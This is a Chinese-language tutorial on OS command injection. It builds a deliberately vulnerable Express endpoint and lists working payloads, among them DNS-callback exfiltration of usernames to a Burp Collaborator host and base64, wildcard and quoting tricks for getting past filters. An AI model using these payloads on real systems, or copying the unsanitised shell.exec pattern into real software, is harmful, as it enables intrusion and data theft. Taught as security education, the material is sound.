

## 定义
OS 命令注入（也称为 shell 注入）是一种 Web 安全漏洞，允许攻击者在运行应用程序的服务器上执行任意操作系统 (OS) 命令，并且通常会完全破坏应用程序及其所有数据。通常，攻击者可以利用操作系统命令注入漏洞来破坏托管基础架构的其他部分，利用信任关系将攻击转向组织内的其他系统。


## 常见的场景

- 后台数据库连接
- 后台ping测试
- 后台telnet测试
- 后台抓包分析工具
- 系统时间配置
- 系统更新
- 后台服务交互处
- 等等
## 示例
这里使用node.js + express快速搭建web，该web服务需要和python进行数据交换

```javascript
const express = require('express')
const app = new express
const shell = require('child_process')
const { urlencoded } = require('express')
const { stderr } = require('process')
app.use(express.json())
app.use(express.urlencoded({ extended: false } ))
app.use('/public',express.static('public/html'))

app.post('/getData',(req, res) => {
    console.log(req.body)
    let productId = req.body.productId
    let storeId = req.body.storeId
    let command = `python test.py ${productId} ${storeId}`
    console.log(command)
    shell.exec(command, (err, stdout, stderr) => {
        if (err) {
            res.send('error')
            return
        } else {
            const data = {}
            data.stderr = stderr
            data.stdout = stdout
            res.send(data)
        }
    })
})
app.listen(8088, () => {
    console.log('running!')
})
```

### windows

正常情况返回


当在storeId后添加执行命令的参数来进行os命令注入，如下

```json
{
	"productId":"22",
  "storeId":"3&&whoami"
}
```


### Linux
```json
{
	"productId":"22",
  "storeId":"3;uname-a"
}
```


## 命令执行常用符号

| **操作系统** | **符号** | **释义** |
| :-: | :-: | :-- |
| windows | && | command1&& command2 表示先**执行command1成功后**再执行Command2，否则不执行 |
|  | & | command1 & command2 表示先执行command1，**不管是否成功，**都会执行command2 |
|  | &#124;&#124; | command1 &#124;&#124; command2 表示当command1 **执行失败后才执行command2**，否则只执行command1 |
|  | &#124; | command1 &#124; command2 表示comand1 输出结果作为后面命令的输入内容 |
|  | > | 文件重定向符号，多用于无回显盲注，将命令结果写到文件里 |
|  | >> | 文件追加符号，多用于无回显盲注，将命令结果追加到文件里 |
| Linux | && | command1 && command2 表示先执行 command1 成功后再执行command2，否则不执行 |
|  | ; | command1;command2 表示先执行command1，不管是否成功，都会执行command2 |
|  | & | command1&command2 表示挂载command1为后台任务，然后再执行command2 |
|  | &#124;&#124; | command1 &#124;&#124; command2 表示当command1 **执行失败后才执行command2**，否则只执行command1 |
|  | &#124; | command1 &#124; command2 表示comand1 输出结果作为后面命令的输入内容 |
|  | `` |\`command\`, 表示在shell里认定给bash，sh解析，而不是认定为字符串，解释器直接以命令执行\`\`里的字符串|
|  | $() | $(command) 表示在shell编程里表示命令，相当于`` |
|  | > | 文件重定向符号，多用于无回显盲注，将命令结果写到文件里 |
|  | >> | 文件追加符号，多用于无回显盲注，将命令结果追加到文件里 |

## 有回显注入
还是以示例为例，在不修改代码的情况下，将上述常用符号过一遍
### windows
#### &&
```json
{
	"productId":"22",
  "storeId":"3&&whoami"
}
```
#### &
```json
{
	"productId":"22",
  "storeId":"3&whoami"
}
// 或者让前一个命令为错误
{
	"productId":"22",
  "storeId":"3aa&&whoami"
}
```


#### ||

```json
{
	"productId":"22",
  "storeId":"3aa||whoami"
}
```


#### |

```json
{
	"productId":"22",
  "storeId":"3|whoami"
}
```


#### \>


#### \>\>
```json
{
"productId":"22",
"storeId":"3&systeminfo>>test.txt"
}
```


在无回显的时候，注意找到web绝对路径，然后再写入到web路径中去，然后再去访问写入的文件查看命令

### Linux
Linux中的`;`对应windows的`&` 用法一致，还有`&&`，`|`，`||` ，`>`，`>>`用法相同，这里主要展示Linux 中的`&`， \`\`，`$()` 用法
#### &
& 在Linux中是将任务给后台执行，并告知pid，然后再执行后面的命令，当第一个命令执行完毕之后，再返回结果，最后告知第一个命令执行完毕


那么对应的payload如下：

```json
{
"productId":"22",
"storeId":"3&whoami"
}
```


#### \`\`(反斜杠)
 反斜杠里的字符串是被Linux shell环境直接执行的，类似php的shell_exec()函数，这个函数简写也是````，它的返回值就是命令执行结果，如下所示 

那么当`; && & ||` 被过滤掉时，无法构造第二条命令的时候，这时```` 就发挥作用了，如下payload

```shell
ping -c 2 127.0.0.1`whoami`
```
可以看到，``whoami`` 的执行结果已经和127.0.0.1拼接在一起了，通过shell报错也能获取命令


#### $()

在shell编程中，`$()`中存放的是命令，相当于\`\`


## 无回显注入
这里更改一下代码如下
```javascript
const express = require('express')
const app = new express
const shell = require('child_process')
const { urlencoded } = require('express')
const { stderr } = require('process')
const e = require('express')
app.use(express.json())
app.use(express.urlencoded({ extended: false } ))
app.use('/public',express.static('public/html'))

app.post('/getData',(req, res) => {
    console.log(req.body)
    let productId = req.body.productId
    let storeId = req.body.storeId
    let command = `python test.py ${productId} ${storeId}`
    console.log(command)
    shell.exec(command, (err, stdout, stderr) => {
        if (err) {
            res.send('error')
            return
        } else {
            const data = {}
            if (stdout) {
                data.code = 200
                data.message = 'success'
                res.send(data)
            }
            else {
                data.code = 404
                data.message = 'error'
                res.send(data)
            }
        }
    })
})
app.listen(8088, () => {
    console.log('running!')
})
```


在无回显盲注的情况下，在判断是否存在注入点时，可以使用dnslog来判断，也可以使用ping方法（**Linux机器一定要加-c参数，否则会造成拒绝服务攻击**)

### DNSLOG

#### windows


windows 不像Linux那样可以使用\`\` 以及`$()`外带命令执行的结果，但是可以利用windows的变量来外带数据

| **变量** | **描述** |
| --- | --- |
| %USERNAME%  | 返回当前登录的用户的名称。 |
| %USERDOMAIN% | 返回包含用户帐户的域的名称 |
| %OS%  | 返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT |
| %USERPROFILE%   | 返回当前用户的配置文件的位置 |
| %ALLUSERSPROFILE% | 返回“所有用户”配置文件的位置 |
| %APPDATA%  | 返回默认情况下应用程序存储数据的位置 |
| %CD% | 返回当前目录字符串 |
| %CMDCMDLINE% | 返回用来启动当前的 Cmd.exe 的准确命令行 |
| %CMDEXTVERSION%  | 返回当前的“命令处理程序扩展”的版本号 |
| %COMPUTERNAME% | 返回计算机的名称 |
| %COMSPEC% | 返回命令行解释器可执行程序的准确路径 |
| %DATE% | 返回当前日期。 |
| %ERRORLEVEL% | 返回上一条命令的错误代码。通常用非零值表示错误。 |
| %HOMEDRIVE%  | 返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。 |
| %HOMEPATH% | 返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。 |
| %HOMESHARE% |  返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的 |
| %LOGONSERVER%  | 返回验证当前登录会话的域控制器的名称。 |
| %NUMBER_OF_PROCESSORS% | 指定安装在计算机上的处理器的数目。 |
| %PATH%  | 指定可执行文件的搜索路径。 |
| %PATHEXT% | 返回操作系统认为可执行的文件扩展名的列表 |
| %PROCESSOR_ARCHITECTURE% | 返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。 |
| %PROCESSOR_IDENTFIER%  | 返回处理器说明。 |
| %PROCESSOR_LEVEL%  | 返回计算机上安装的处理器的型号。 |
| %PROCESSOR_REVISION% | 返回处理器的版本号。 |
| %PROMPT%  | 返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。 |
| %RANDOM%  | 返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。 |
| %SYSTEMDRIVE% | 返回 Windows server operating system 根目录的位置。 |
| %TEMP%和%TMP%  | 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。 |
| %TIME%  | 返回当前时间。使用与time /t命令相同的格式。由Cmd.exe生成。有关time命令的详细信息，请参阅 Time。 |
| %WINDIR% | 返回操作系统目录的位置 |

```json
{
"productId":"22",
"storeId":"3&ping -n 1 %USERNAME%.6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net"
}
```


### Linux

```json
{
	"productId":"22",
  "storeId":"3;ping -c 1 `whoami`.6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net"
}
```





### 文件重定向

由于是无回显的命令注入，那么需要找到`web`的路径，然后将命令写到`web`绝对路径中查看，示例代码的`web`解析路径在`public/html`目录下，那么需要将文件写入到`${web}/public/html`下，访问`${url}/public/xxx`即可
#### windows
```json
// 请根据实际需要修改web路径
{
"productId":"22",
"storeId":"3&systeminfo > ./public/html/1.txt"
}
```


#### Linux


## 命令执行小tips

一般检测方式是使用基于时间，DNSLOG检测，这两种情况都需要
### 基于时间
基于时间的检测方式大多使用`ping`命令，也有如`nc`，`curl`，`telnet`，但是这些命令有的服务器是不存在的，所以这里使用ping命令，来对比传输多个包与一个包的时间差异来判断是否存在命令注入
```shell
# windows 下
ping -n 12 127.0.0.1
ping -n 1 127.0.0.1
# Linux 下
ping -c 12 127.0.0.1
ping -c 1 127.0.0.1
```
### DNSLOG
dnslog 检测，主要是利用dns解析域名会发起dns请求，使用dnslog平台，发起`http`，`dns`,`icmp`等网络请求，只要需要dns解析域名，那么dnslog平台就可以收到域名解析记录
```shell
nslookup 6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net
ping 6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net
curl 6cjo9fo3iffy96gtta0h3lwjoau0ip.burpcollaborator.net
...
```
## 常见绕过方式
### 空格绕过

- ${IFS}
- <>(重定向符号)
```shell
cat<>test
cat<test
```

- %09(需要PHP环境)
### 黑名单绕过

- shell拼接
```shell
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```

- base64编码
```shell
echo d2hvYW1p | base64 -d | bash
```

- 单引号，双引号
```shell
c""at fl''ag.tx""t
```

- 反斜杠
```shell
c\at fl\a\g.tx\t
```

- $1
```shell
ca$1t fl$1ag.t$1xt
```
### 通配符绕过
/???会去寻找 / 目录下的三个字符长度的文件，正常情况下会寻找到/bin，然后/?[a][t]会优先匹配到/bin/cat,就成功调用了cat命令，然后后面可以使用正常的通配符匹配所需读的文件，如flag.txt文件名长度为8，使用8个?’’，此命令就会读取所有长度为8的文件。
```shell
/???/?[a][t] ????????
```
同理，我们也可以匹配/bin下的其他命令，如more，less，vi，tail等命令来查看文件，或者执行其他命令，甚至反弹shell
### 命令嵌套
```shell
echo "result:`whoami`"
echo "result:$(uname -a)"
```
### >> 文件追加绕过长度限制
```shell
[aaron@localhost Desktop]$ echo c\\>test
[aaron@localhost Desktop]$ echo at \\>>test
[aaron@localhost Desktop]$ echo f\\>>test
[aaron@localhost Desktop]$ echo lag.\\>>test
[aaron@localhost Desktop]$ echo txt>>test
[aaron@localhost Desktop]$ bash test
123
# 对应写在test里的命令为
c\
at \
f\
lag.\
txt
```
## 参考链接
[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

[https://www.cnblogs.com/q1ya/articles/14956544.html](https://www.cnblogs.com/q1ya/articles/14956544.html)

[https://www.bilibili.com/read/cv8197693/](https://www.bilibili.com/read/cv8197693/)

